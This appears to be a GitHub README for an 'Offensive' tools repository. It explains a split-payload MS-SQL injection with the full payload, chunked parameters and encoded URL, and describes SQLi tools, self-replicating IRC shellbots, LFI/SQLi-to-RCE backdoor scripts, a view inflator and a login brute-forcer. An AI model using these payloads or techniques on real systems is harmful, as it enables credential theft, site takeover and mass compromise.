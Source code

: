 ## SQLIs

### SQLIs/SQLi Split-Payload Exploit - [Link](https://github.com/gosirys/Offensive/blob/main/SQLIs/mssql-dump-splitPayload.pl)

This was coded to exploit a tricky SQL Injection vulnerability I found in one of my earliest pentest in 2011. The affected resource had 6 vulnerable parameters, each one with a max-length enforced server-side causing all payloads being truncated after x chars.
Since it was a error-based SQLi, I could see the resulting query when it was failing due to syntax errors caused by the inputs truncation.
This allowed me to discover that all the parameters were ending in the same SQL query, therefore to successfully exploit the vulnerability technically I could have split each payload into smaller chunks, inject each of them into parameters based on their order of appareance in the original query, use comments to have parts of the original query ignored, resulting in the final payload to be effectively rebuilt. 
This was done by adding a "start comment" sequence at the end of a parameter's payload's chunk, and a "end comment" sequence at the beginning of a following parameter's injection.  

An example of what the original query could have looked like (yes I lost the original report and all I have left is the exploit code which I coded 10 years ago) is shown below:

```sql
SELECT x,z FROM TABLE WHERE Param1 = '$input_1' AND Param2 = '$input_2' AND Param3 = '$input_3' AND Param4 = '$input_4' AND Param5 = '$input_5' AND Param6 = '$input_6' ORDER BY x DESC
```

A payload of interest could be one to disclose sensitive columns from a specific table and database. For instance, following a prior enumeration of the targeted database's schema, one might want to obtain records of the columns `user,pass` from the table `users` of database currently in use by the application.  
  
Such a payload could look like the following:
```sql
' union select top 1 null,convert(int,user,pass) from users_table where user,pass not in (select top 1 user,pass from users_table)--ORDER BY x DESC
```
  
A successful exploitation could then be achieved by splitting the payload in `x` chunks based on the inputs' length limitation and amount of affected parameters. In this case, 6 parameters were vulnerable and according to the exploit I wrote it seems that all inputs had a different max-lengths enforced server-side. In the specific case of this application, the payload could be split amongst the parameters as shown below:

Param1=`' union select top 1 null,/*`  
Param2=`*/convert(int,user,pass) from /*`  
Param3=`*/users_table where user,pass/*`  
Param4=`*/ not /*`  
Param5=`*/in /*`  
Param6=`*/(select top 1 user,pass from users_table)--`  

The final URL would then be something like the following:
```
https://site.com/vuln_resource?Param1=%27%20union%20select%20top%201%20null%2C%2F%2A&Param2=%2A%2Fconvert%28int%2Cuser%2Cpass%29%20from%20%2F%2A&Param3=%2A%2Fusers_table%20where%20user%2Cpass%2F%2A&Param4=%2A%2F%20not%20%2F%2A&Param5=%2A%2Fin%20%2F%2A&Param6=%2A%2F%28select%20top%201%20user%2Cpass%20from%20users_table%29--
```

Once requested, the injected chuncks would end up in the SQL query affecting its behaviour as shown below:
```sql
SELECT x,z FROM TABLE WHERE Param1 = '' union select top 1 null,/*' AND Param2 = '*/convert(int,user,pass) from /*' AND Param3 = '*/users_table where user,pass/*' AND Param4 = '*/ not /*' AND Param5 = '*/in /*' AND Param6 = '*/(select top 1 user,pass from users_table)--'
```
  
After being processed by the DBMS, which in this case was MS-SQL, the parts in between comments would be ignored leading to the execution of the following SQL query:
```sql
SELECT x,z FROM TABLE WHERE Param1 = '' union select top 1 null,convert(int,user,pass) from users_table where user,pass not in (select top 1 user,pass from users_table)--ORDER BY x DESC
```

The above query would trigger a MS-SQL error - forced by asking the DBMS to convert columns of type varchar to Int: `convert(int,user,pass)` - to be displayed on the page and disclose the username and passoword of the first user in the `users_table` table.  

That is it, the rest of the logic including all queries to extract all databases, tables and columns and final dump of columns/tables of interest can be found in the linked exploit code.  

***Disclaimer***  
The above explanation was written over 10 years after the vulnerability was found and its exploit written - therefore do not expect every single bit to perfectly accurate as I had to extrapolate the inner workings by re-reading my exploit code. However should be enough to give an idea of it all.
Moreover, even though SQLmap already existed at the time, I'm not quite sure it could be used to semi-automatically exploit a vulnerability of this kind - hence I had to write all this to achieve the objecive.


###  SQLIs/yInjector - [Link](https://github.com/gosirys/Offensive/blob/main/SQLIs/yInjector/v1.5/yinjector.pl)
#### History
I developed this tool sometime in 2010. Having a thing for doing source code review and SQL Injections I thought I to write my own tool to help me identify and exploit this class of vulnerabilities.

#### Features
* HTTP Methods: GET/POST with support for Cookies
* DBMS: limited to MySQL
* HTTP Proxy Support
* Log File for debugging
* Main Features:
	* Automatic detection of vulnerable parameters
	* Payloads style attack: Error Based and Union Select
	* Automatic payload creation 
	* Assisted and automated database(s)* rows dump
* Advanced Exploitation modules:
	* Internal Absolute File System Path identification module - required for the RCE module
	* Local File Disclosure module by leveraging FILE privileges and MySQL `load_file` function
	* Remote Code Execution module by abusing FILE privileges MySQL `into dumpfile` function
	* MD5 Hashes assitive cracking through Online password cracking services 

#### Disclaimer
Development of this tool stopped right after I discovered how powerful SQLmap had become as right in these time it already supported several DBMS and Injection techniques (Error, Boolean Blind, Time-Based Blind, Stacked, etc).
Kudos to the guys behind [sqlmap](https://github.com/sqlmapproject/sqlmap)



## IRC-Bots

###  IRC-Bots/v6 Shellbot - [Link](https://github.com/gosirys/Offensive/blob/main/IRC-Bots/v6-IRC-Shellbot/v6.txt)
#### Some History
Around 2007-2010 Remote File Inclusion (RFI) was a widespread vulnerability, mostly affecting Web Applications written in PHP. It was around 2007 that I stumbled upon some clandestines underground IRC servers ran by questionable individuals the likes of `Mafia<something>` (can't recall his nick) - where they had IRCBots running in their channels. Those bots were coded to scan the web using dorks to find sites built with certain CMS for which there was a known vulnerability and a working PoC - and run the PoC against every search's result and compromise as many sites as possible. I remember liking the colors of those bots and that some of these were being sold for thousands of Euros. I then happened to find the source code of one of these bots left on a hacked server. Shortly after i started practicing by modding it and ultimately ended up learning Perl to write my first bot (v5) - which then led to the creation of its successor, the "v6".  
At the time, the v6 became one of the most widely used IRC shellbots in circulation.
	
#### Main features

* Vulnerability classes supported:
	* SQL Injection
	* RFI (Remote File Inclusion)
	* LFI/LFD (Local File Inclusion/Disclosure)
	* RCE (Remote Code Execution)
* Search Engines:
	* Mass Scan, Google, AlltheWeb, Yahoo, Msn
	* TLDs: .at/.com.au/.com.br/.ca/.ch/.cn/.de/.dk/.es/.fr/.it/.co.jp/.com.mx/.co.uk
	* Bypass support: Google and Yahoo
* Advanced Features:
	* Integrated OS-shell, RCE on the box running the bot
	* Security Mode to protect "dangerous" functions (OS-Shell)
	* Spread Mode, enable/disable bot's self replication on sites vulnerable to RFI/RCE
	* Single Spread Mode, to enable its self-replication on individual sites


### IRC-Bots/v5 Shellbot - [Link](https://github.com/gosirys/Offensive/blob/main/IRC-Bots/v5-IRC-Shellbot/v5_01.txt)

This was my first ever program in Perl, which I coded discovering the source code of one of the popular bots at the time and learning how poorly it was coded. Similar in functionalities to its successor (v6 Shellbot) but with fewer features and more bugs.



## Misc

### Misc/From LFI to RCE - [Link](https://github.com/gosirys/Offensive/tree/main/Misc/LFI2RCE.pl)
This tool was coded to leverage a technique known as Log Poisoning in combination with Local FIle Inclusion vulnerabilities. By injecting PHP code in the URL query string or User-Agent, some insecured Apache configuration would store the PHP code without any sanitisation in log files. The Local File Inclusion vulnerability would then be used against a dictionary of typical paths of Apache log files. Finding the correct path of the poisoned log file would then result in Remote Code Execution.


### Misc/From SQL Injection to RCE - [Link](https://github.com/gosirys/Offensive/tree/main/Misc/SQLi2RCE.pl)
Simple script to escalate SQL Injection vulnerabilities into Remote Code Execution.
The tool worked by requesting a non-existent path on the affected site, to then use (if privileges allowed) the MySQL `load_file` function through the provided SQL Injection PoC, running through a dictionary of typical internal paths for Apache's error logs. Should the error log be found, the tool would then extract the absolute file system internal path looking for the non-esisting path initially requested. By knowing the exact internal file system path of the document root of the affected application, the tool would then try to use the MySQL `into dumpfile` function to create a PHP backdoor in the site's document root.


### Misc/Views Freaker - [Link](https://github.com/gosirys/Offensive/tree/main/Misc/views_freaker.pl)
Simple script to issues many HTTP requests to a given page through a multitude of Proxies.
Mainly used to increase the "hits/views" on websites pages.


### Misc/Remote Bruter k7 - [Link](https://github.com/gosirys/Offensive/tree/main/Misc/RemoteBruter-k7.pl)
A tool to perform login bruteforce through dictionary-based attacks against FTP, TELNET and SSH services.
Supporting parallel-processing and useable through a CLI interface or as IRC bot.
  
